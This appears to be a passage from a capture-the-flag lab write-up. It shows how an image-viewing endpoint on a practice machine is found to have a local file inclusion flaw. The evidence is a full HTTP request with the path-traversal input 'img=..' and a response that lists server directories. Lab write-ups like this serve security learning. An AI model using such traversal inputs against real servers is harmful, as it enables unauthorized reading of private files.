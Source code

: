 When uploading an image (ex:`file.jpg`), the file is accepted:

![Web Homepage](assets/web_upload_form_success.png)

There is a filter on the upload form, on the extension, or mimetype, or something.

The link provided to get uploaded image is something like :

`http://10.10.11.204:8080/show_image?img=file.jpg`

Use BrupSuite with the repeater tool to analyse this request, a LFI quickly appears when `img=..`

Request :

```text
GET /show_image?img=.. HTTP/1.1
Host: 10.10.11.204:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

Response :

```
HTTP/1.1 200 
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 4096
Date: Sun, 09 Apr 2023 19:09:39 GMT
Connection: close

java
resources
uploads

```

A LFI is found.
